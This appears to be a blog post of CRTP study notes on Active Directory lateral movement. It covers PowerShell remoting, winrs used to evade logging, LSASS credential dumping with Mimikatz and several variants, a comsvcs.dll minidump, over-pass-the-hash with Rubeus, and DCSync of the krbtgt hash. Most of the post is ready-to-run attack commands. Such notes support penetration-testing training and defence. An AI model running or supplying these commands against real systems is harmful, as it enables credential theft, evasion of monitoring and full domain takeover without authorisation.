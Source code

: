 ```yaml
---
title: "3 - Lateral Movement"
classes: single
header:  
  teaser: /assets/images/posts/crtp/crtp-teaser4.jpg
  overlay_image: /assets/images/main/header5.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "PowerShell Remoting, Mimikatz, Over Pass the hash and More"
description: "PowerShell Remoting, Mimikatz, Over Pass the hash and More"
categories:
  - notes
  - crtp
tags:
  - beginner
  - AD
  - Windows
  - lateralmovement 
toc: true
---
```


# Lateral Movement

- Think of PowerShell Remoting (PSRemoting) as psexec on steroids but much more silent and super fast!
- PSRemoting uses Windows Remote Management (WinRM) which is Microsoft's implementation of WS-Management.
- Enabled by default on Server 2012 onwards with a firewall exception.
- Uses WinRM and listens by default on 5985 (HTTP) and 5986 (HTTPS).
- It is the recommended way to manage Windows Core servers.
- You may need to enable remoting (Enable-PSRemoting) on a Desktop Windows machine, Admin privs are required to do that.
- The remoting process runs as a high integrity process. That is, you get an elevated shell.

**One-to-One**

PSSession:
```powershell
– Interactive
– Runs in a new process (wsmprovhost)
– Is Stateful
```

Useful cmdlets:
```powershell
– New-PSSession
– Enter-PSSession
```

```powershell
# 1. PS> 
Enter-PSSession <machine>
Get-PSHostProcessInfo #this will show the ProccessID of wsmprovhost

# 2. PS> 
$machine = New-PSSession <machine>
```



**One-to-Many**

- Also known as Fan-out remoting.
- Non-interactive.
- Executes commands parallely.

Useful cmdlets
```powershell
– Invoke-Command
```

Run commands and scripts on:
```powershell
– multiple remote computers
– in disconnected sessions (v3)
– as background job and more.
```

> The best thing in PowerShell for passing the hashes, using credentials and executing commands on multiple remote computers.
> Use -Credential parameter to pass username/password.


**[easy to detect - noisy]**

**Use below to execute commands or scriptblocks**:
```powershell
Invoke-Command -Scriptblock {Get-Process} -ComputerName	(Get-Content <list_of_servers>)
```

**Use below to execute scripts from files**:
```powershell
Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 -	ComputerName (Get-Content <list_of_servers>)
```

**Use below to execute locally loaded function on the remote machines**:
```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>)
```

**In this case, we are passing Arguments. Keep in mind that only positional arguments could be passed this way**:
```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>) -ArgumentList
```

**In below, a function call within the script is used**:
```powershell
Invoke-Command -Filepath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)
```

**Use below to execute Stateful commands using Invoke-Command**:
```powershell
$Sess = New-PSSession -Computername Server1
Invoke-Command -Session $Sess -ScriptBlock {$Proc = Get-Process}
Invoke-Command -Session $Sess -ScriptBlock {$Proc.Name}
```


**[more stealthy]**

> PowerShell remoting supports the system-wide transcripts and deep script block logging.

We can use winrs in place of PSRemoting to evade the logging (and still reap the benefit of 5985 allowed between hosts):
```powershell
winrs -remote:server1 -u:server1\administrator -p:Pass@1234 hostname
```

> We can also use winrm.vbs 
> COM objects of WSMan object (even more silently)

[WSMan-WinRM on GitHub](https://github.com/bohops/WSMan-WinRM)



# MIMIKATZ

[Mimikatz on GitHub](https://github.com/gentilkiwi/mimikatz)

Unofficial mimikatz guide:

[ADSecurity Blog - Mimikatz DCSync Usage, Exploitation, and Detection](https://adsecurity.org/?p=2207)


**Local admin required**

> Invoke-Mimikatz, is a PowerShell port of Mimikatz. Using the code from ReflectivePEInjection, mimikatz is loaded reflectively into the memory.

All the functions of mimikatz could be used from this script.

> [everything from LSASS is heavily detected]**

**Dump credentials on a local machine using Mimikatz**:
```powershell
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

**Using SafetyKatz (Minidump of lsass and PELoader to run Mimikatz)**:
```powershell
SafetyKatz.exe "sekurlsa::ekeys"
```

**Dump credentials Using SharpKatz (C# port of some of Mimikatzfunctionality)**:
```powershell
SharpKatz.exe --Command ekeys
```

**Dump credentials using Dumpert (Direct System Calls and API unhooking)**:
```powershell
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump
```

**Using pypykatz (Mimikatz functionality in Python)**:
```powershell
pypykatz.exe live lsa
```

**Using comsvcs.dll**:
```powershell
tasklist /FI "IMAGENAME eq lsass.exe" 
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <lsass process ID> C:\Users\Public\lsass.dmp full
```

- From a Linux attacking machine using *impacket*
- From a Linux attacking machine using *Physmem2profit*

## References

[Fantastic Windows Logon Types and Where to Find Credentials in Them](https://www.alteredsecurity.com/post/fantastic-windows-logon-types-and-where-to-find-credentials-in-them)

[Invoke-Mimikatz.ps1 in Nishang](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1)

[SharpKatz on GitHub](https://github.com/b4rtik/SharpKatz)

[Dumpert on GitHub](https://github.com/outflanknl/Dumpert)

[BetterSafetyKatz on GitHub](https://github.com/Flangvik/BetterSafetyKatz)

[SafetyKatz on GitHub](https://github.com/GhostPack/SafetyKatz)

[pypykatz on GitHub](https://github.com/skelsec/pypykatz)

[lsassy on GitHub](https://github.com/Hackndo/lsassy)

[impacket on GitHub](https://github.com/SecureAuthCorp/impacket/)

[physmem2profit on GitHub](https://github.com/FSecureLABS/physmem2profit)


# What to do with credentials?

## Over-Pass-The-Hash

Over Pass the hash (OPTH) generate tokens from hashes or keys. 

> Needs elevation (Run as administrator)

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256key> /run:powershell.exe"' 
SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256keys> /run:cmd.exe" "exit"
```

> The above commands starts a PowerShell session with a logon type 9 (same as runas /netonly).


- Over Pass the hash (OPTH) generate tokens from hashes or keys.

**Doesn't need elevation**:
```powershell
Rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt
```

**Needs elevation**:
```powershell
Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

```powershell
pass-the-hash # for non domain machines
overpass-the-hash # for domain machines (it gerenates kerberos token)
```
 
# DCSync

> By default, Domain Admins privileges are required to run DCSync

To extract credentials from the DC without code execution on it, we can use DCSync.

To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges for us domain:
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```
